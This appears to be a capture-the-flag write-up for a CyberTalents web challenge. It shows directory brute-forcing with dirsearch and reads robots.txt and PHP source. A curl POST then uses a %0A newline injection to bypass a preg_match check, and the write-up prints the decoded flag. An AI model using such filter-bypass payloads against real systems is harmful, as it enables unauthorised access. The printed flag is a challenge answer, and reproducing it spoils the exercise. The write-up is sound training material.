



# Solve catch me if you can
#### https://cybertalents.com/challenges/web/catch-me-if-you-can


### Run Directory bruteforce
`dirsearch -u http://wcamxwl32pue3e6mxmqvrwdh2zokj6zqdkgxu639-web.cybertalentslabs.com -x 403,404`
*you can find the output in [Directories.txt](Directories.txt)*

Scan robots.txt
```txt
User-agent: *
Disallow: /S3cr3t.php
Disallow: /source.php
```
Scan S3cr3t.php



Scan source.php
```php
<?php


include('flag.php');

$password=$_POST['pass'];

if (strpos( $password, 'R_4r3@')!== FALSE){
    
    if (!preg_match('/^-?[a-z0-9]+$/m', $password)) {
    
        die('ILLEGAL CHARACTERS');
  
        }
echo $cipher;
    }
else 
{
    echo 'Wrong Password';
    }

?>
```

### Try login with R_4r3@



It trigger the `preg_match`

The password must have a R_4r3@ and also pass preg_match

### Bypass with %0A
```bash
curl http://wcamxwl32pue3e6mxmqvrwdh2zokj6zqdkgxu639-web.cybertalentslabs.com/S3cr3t.php -d "pass=test%0AR_4r3@"

Can You Read This For Me ? <br><br>-[------->+<]>---.++++++.------------.--[--->+<]>---.[----->+<]>.[--->++<]>.>-[----->+<]>.>-[--->+<]>--.[--->+<]>+++.--.--[->+++++<]>+.---[-->+++<]>--.+[----->+<]>.++[++>---<]>.+[->++<]>.-----.+[--->++<]>+.--[----->+<]>-.>-[----->+<]>.+.>--[-->+++<]>.
```

### Decode Brainfuck
`-[------->+<]>---.++++++.------------.--[--->+<]>---.[----->+<]>.[--->++<]>.>-[----->+<]>.>-[--->+<]>--.[--->+<]>+++.--.--[->+++++<]>+.---[-->+++<]>--.+[----->+<]>.++[++>---<]>.+[->++<]>.-----.+[--->++<]>+.--[----->+<]>-.>-[----->+<]>.+.>--[-->+++<]>.` 
`FL@g{R3Str1Ct1d_Ar34`

### Resources
[Brainfuck decoder](https://www.dcode.fr/brainfuck-language)

>Find More on ==> github.com/MedhatHassan 
